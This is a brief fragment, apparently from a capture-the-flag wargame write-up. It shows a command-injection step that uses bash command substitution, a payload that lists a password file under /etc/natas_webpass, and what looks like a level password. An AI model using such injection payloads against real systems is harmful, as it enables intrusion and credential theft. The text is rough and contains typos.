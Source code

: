 U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

Command Injection

Use bash comman substitution to exploit

$(command) or `command`

Exploit

. `ls /etc/natas_webpass/nata11`
